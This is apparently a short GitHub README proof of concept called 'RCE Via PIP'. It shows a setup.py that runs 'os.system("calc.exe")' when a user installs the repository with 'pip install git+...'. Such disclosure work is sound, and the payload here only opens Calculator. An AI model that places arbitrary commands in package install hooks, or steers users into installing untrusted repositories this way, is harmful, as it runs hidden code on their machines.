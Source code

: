 ## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

The Malicious codes pushed in the repo by attacker will be executed!.
Proof of Concept for a security report

![cat3](https://raw.githubusercontent.com/slvignesh05/RCE-PIP/refs/heads/main/Public/cat3.jpeg)
